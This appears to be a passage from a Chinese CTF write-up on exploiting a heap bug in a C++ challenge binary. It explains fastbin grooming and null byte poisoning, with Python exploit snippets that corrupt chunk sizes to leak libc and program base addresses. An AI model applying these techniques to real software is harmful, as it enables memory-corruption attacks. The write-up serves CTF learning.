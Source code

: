 ```python
	return idx #返回下一个用的index
```

这个`/bin/sh`没用的。。。不管他。。。

# 0x04 leak

一开始没看到read之后把size字段重置了，以为那样直接就能leak。。（盲人CTF，bestCTF

首先是要泄露libc的基址，也许要通过虚表地址泄露程序的基址，然后leak需要存在一个UAF，或者overlap chunk，所以要把溢出转换成这种东西。

然后这个我想了一段时间，最后觉得还是用[null byte poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/poison_null_byte.c)的思路比较合适。

这个利用方法不详细说了，不知道可以看看上面shellphish的how2heap。

然后这里要注意，null byte poisoning要让3个非fastbin的chunk互相连接，而这道题会先`new`一个类的对象，然后在初始化函数里面再`new`其data，所以直接从top chunk取的话没法保证data互相连接，所以要预先对堆做一点处理。还有就是，这题有内存泄露，`delete`掉类的时候只`delete`了data没有`delete`这个类。

怎么预先处理，就是让类的`new`从fastbin里面拿就好了，很简单，所以预先先放几个`0x60`的chunks在fastbin即可。（Video类大小为0x50）

```python
create_video("video struct 1", 0x50) #0
create_video("video struct 2", 0x50) #1
create_video("video struct 3", 0x50) #2
create_video("video struct 4", 0x50) #3
create_video("video struct 5", 0x50) #4
remove(idx+0)
remove(idx+1)
remove(idx+2)
remove(idx+3)
remove(idx+4)
#now 5 0x60 chunk in fastbin
```

这个时候，再`create_video`只要data字段不会被分到0x60的chunk，类就会从fastbin里拿，而data就会从topchunk里面拿，这样就能有null byte poison的利用条件了。

接下来便是null byte poison利用，基本上跟how2heap上面差不多。首先新建一个`subtitle`，然后这个的类和data都会从topchunk里面取，其data的chunk作为chunk a，然后chunk b2先是用来作为一个video的data，再分配一个video的chunk在相同的位置，同时后面也有一个unsorted bin，所以一下子可以把程序基址和libc都leak出来。注意最后一个chunk很重要，不然就不是unsorted bin而是topchunk了，这样libc就leak不出来

```python
create_subtitle(0x101, "A" * 0x101) #5
#take from topchunk

create_video("A" * 0x300 + p64(0x200) + p64(0x120), 0x310) #6
create_video("c", 0x100) #7
#take from topchunk

remove(idx+6)
#put into unsorted bin

#0x101 + 0xffffffff == actual size you want
recreate_subtitle(0xffffffff, "A" * 7 + p64(0x201)) #5
#this will also free a 0x111 chunk
create_video("consume 0x111 chunk", 0x100) # 8


create_video("chunk b1", 0x80) #9
create_video("A" * 0x160, 0x160) #10 b2 is its content
#now null byte poisoning done, we can take stuff from that 0x201 chunk
#now bins are clear
create_video("prevent topchunk consolidation", 0x28) # 11


remove(idx + 9)#free b1
```